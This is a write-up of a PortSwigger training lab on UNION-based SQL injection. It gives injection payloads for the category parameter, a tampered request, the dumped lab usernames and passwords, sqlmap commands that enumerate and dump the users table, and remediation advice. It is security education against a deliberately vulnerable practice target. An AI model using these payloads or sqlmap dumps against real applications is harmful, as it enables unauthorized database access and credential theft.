 # SQL Injection UNION Attack to Retrieve Data from Other Tables (PortSwigger Lab)

### **Lab: SQL Injection UNION Attack to Retrieve Data from Other Tables**

#### **Lab URL**:

[https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

***

### **High-Level Summary of the Lab**

1. **Objective**: Exploit a _**UNION-based SQL Injection attack**_ to retrieve usernames and passwords from the `users` table and log in as the administrator.
2. **What Makes This Vulnerable?**:
   * The application does not properly sanitize user input in the `category` parameter, allowing SQL Injection.
   * The vulnerability enables attackers to manipulate SQL queries to extract data from different tables.
3. **Key Techniques**:
   * Identifying column count via UNION attack.
   * Extracting data using UNION SELECT statements.
4. **Key Learning**:
   * UNION attacks can reveal sensitive data if input fields are not properly validated.
   * SQL Injection testing requires manual verification before leveraging automation tools.

***

### **PortSwigger Solution Overview**

1. **Determine the Number of Columns**:
   *   Modify the category filter request to test for the number of columns:

       ```sql
       '+UNION+SELECT+'abc','def'--
       ```
   * Identify how many columns accept string values.
2. **Retrieve Data from Users Table**:
   *   Inject the following payload to extract usernames and passwords:

       ```sql
       '+UNION+SELECT+username,+password+FROM+users--
       ```
3. **Extract Admin Credentials**:
   * Locate administrator credentials from the output and log in to complete the lab.

***

### **Your Solution**

1. **Intercept the Request**:
   *   Identify the GET request:

       ```html
       GET /filter?category=Clothing%2c+shoes+and+accessories
       ```
   * Modify the `category` parameter to inject a UNION-based SQL query.
2. **Craft the Payload**:
   *   Use the following injection:

       ```sql
       1' UNION SELECT username, password FROM users --
       ```
   *   The full request becomes:

       ```plaintext
       GET /filter?category=Clothing%2c+shoes+and+accessories1' UNION SELECT username, password FROM users -- HTTP/2
       ```
3. **Extract the Results**:
   *   Application responds with user credentials:

       ```xml
       <tr><th>wiener</th><td>e0rhde6r01n2svvmpp42</td></tr>
       <tr><th>carlos</th><td>nd76dn00fy7xpm8m1ghe</td></tr>
       <tr><th>administrator</th><td>r08fng6gvgdcoxnsfsj5</td></tr>
       ```
4. **Log In as Administrator**:
   * Use the extracted credentials (`administrator:r08fng6gvgdcoxnsfsj5`) to complete the lab.

***

### **Automating with SQLmap**

#### **Step 1: Test for Vulnerability**

```bash
sqlmap 'https://<lab-url>/filter?category=Pets' --dbs
```

#### **Step 2: Identify Available Tables**

```bash
sqlmap 'https://<lab-url>/filter?category=Pets' -D public --tables --batch
```

#### **Step 3: Extract User Data**

```bash
sqlmap 'https://<lab-url>/filter?category=Pets' -D public -T users --dump --batch
```

Results:

```plaintext
administrator:lzr7vlf5vf8johylrz93
```

Log in with the credentials to complete the lab.

***

### **Why This Lab Demonstrates SQL Injection**

1. **User-Supplied Input Controls Query Execution**:
   * The `category` parameter is used in an SQL query without proper validation.
   * Injecting UNION SELECT statements allows attackers to retrieve unauthorized data.
2. **UNION-Based SQL Injection**:
   * The UNION operator is used to merge query results and extract data from different tables.
3. **Security Impact**:
   * Unauthorized access to sensitive data, leading to privilege escalation.
   * Demonstrates the risk of poorly validated user input in web applications.

***

### **Remediation Recommendations**

1.  **Use Parameterized Queries**:

    ```python
    cursor.execute("SELECT * FROM products WHERE category = ?", (user_input,))
    ```

    * Ensures user input is treated as data, preventing query manipulation.
2. **Implement Proper Input Validation**:
   * Reject unexpected input types and enforce strict validation rules.
3. **Minimize Database Exposure**:
   * Restrict access to sensitive tables.
   * Implement **least privilege** access control for database users.
4. **Enable Web Application Firewalls (WAFs)**:
   * Use tools like ModSecurity to detect and block SQL Injection attempts.
5. **Regular Security Audits**:
   * Perform code reviews and penetration tests to identify injection vulnerabilities before attackers do.

***

### **Further Reading and References**

* **OWASP SQL Injection Guide**: [https://owasp.org/www-community/attacks/SQL\_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
* **PortSwigger SQL Injection Academy**: [https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)
* **SQLmap Official Documentation**: [http://sqlmap.org](http://sqlmap.org/)
